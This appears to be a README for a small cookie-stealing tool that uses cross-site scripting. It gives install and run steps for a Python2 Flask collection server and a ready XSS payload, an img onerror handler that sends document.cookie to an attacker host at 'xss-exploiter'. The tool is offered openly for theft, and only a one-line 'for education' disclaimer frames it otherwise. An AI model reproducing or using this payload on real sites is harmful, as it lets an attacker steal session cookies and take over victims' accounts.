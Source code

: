# steal-cookie
steal cookies from website using xss :)

# Requirements :
- python2
- Flask module

# install requirements (Linux) :

````
$ apt install python2
````

````
$ pip install flask
````


# Run It :
 

````
 $ python2 xss.py
 ````
 
# stealing cookie using xss :


 <h2>enter the cookie in this url </h2>
 

````http://YOUR_IP/cookie?cookie=COOKIE```` 
 

# Payload :
  
  ````
  "><img src="x" onerror='document.location="http://xss-exploiter/cookie?cookie=" + document.cookie'>
  ````
  

# Note :
    
This Tool For education .. Good Luck ^_^


# My Links :

            <a href="https://www.facebook.com/profile.php?id=100015121337012" > <h3> Facebook </h3></a>

